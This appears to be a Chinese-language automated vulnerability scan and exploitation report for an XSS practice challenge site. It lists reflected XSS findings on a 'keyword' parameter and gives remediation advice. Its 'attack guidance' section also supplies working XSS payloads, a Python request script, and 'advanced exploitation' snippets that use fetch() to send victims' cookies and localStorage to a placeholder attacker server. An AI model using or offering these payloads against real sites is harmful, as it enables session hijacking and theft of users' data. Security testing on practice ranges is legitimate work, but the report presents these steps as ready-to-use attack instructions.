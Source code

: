 # 漏洞扫描报告
扫描时间: 2025-01-19 22:07:40
目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
扫描模式: 自动化攻击

# 漏洞扫描和利用报告

## 发现的漏洞
### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)
